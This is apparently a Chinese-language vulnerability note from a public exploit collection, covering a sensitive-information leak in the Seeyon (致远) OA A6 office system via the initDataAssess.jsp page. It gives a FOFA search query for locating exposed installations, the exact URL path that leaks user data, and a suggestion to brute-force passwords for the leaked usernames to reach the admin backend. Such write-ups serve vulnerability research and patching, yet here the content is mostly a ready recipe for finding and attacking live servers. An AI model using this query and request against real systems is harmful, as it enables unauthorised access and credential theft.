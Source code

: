 # 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

## 漏洞描述

致远OA A6 initDataAssess.jsp 存在用户敏感信息泄露

可以通过得到的用户名爆破用户密码进入后台进一步攻击

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## FOFA 

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问下列URL泄露用户信息

```plain
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```